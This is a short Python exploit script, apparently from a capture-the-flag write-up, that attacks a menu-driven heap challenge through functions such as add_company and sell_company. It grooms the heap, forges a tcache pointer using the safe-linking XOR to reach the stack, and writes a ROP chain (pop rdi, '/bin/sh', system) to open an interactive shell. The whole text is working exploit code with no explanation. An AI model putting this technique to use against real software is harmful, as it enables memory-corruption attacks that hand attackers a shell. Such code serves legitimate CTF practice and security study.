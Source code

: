 ```python
# add_company(p64(0),str(1007).encode()) # padding

add_company(b"a"*0x100+b" ",str(1007).encode()) # padding
add_company(b"b"*0x100+b" ",str(1007).encode()) # padding

add_company(b"a"*0x30+b" ",str(1007).encode()) # padding 0x40

move_worker(p64(stack)+0x28*b"k"+b" ",b"project_2_project_2_name_name ")

gdb.attach(p)

fire_worker(p64(stack)+0x28*b"k"+b" ")

sell_company(b"a"*0x30)

payload=(p64(stack-0x10^((heap+0x17000)>>12))).ljust(0x30,b"a")

add_company(payload+b" ",str(1007).encode())

sell_company(b"a"*0x100)
sell_company(b"b"*0x100)
pop_rdi_ret=libc+0x000000000010f75b
system=libc+0x58740
bin_sh=libc+0x1cb42f
ret=libc+0x000000000002882f
payload=(p64(0)+p64(0)+p64(0)+p64(ret)+p64(pop_rdi_ret)+p64(bin_sh)+p64(system)).ljust(0x100,b"\x00")
add_company(payload+b" ",str(1008).encode())

p.send(b"\n")
p.interactive()

```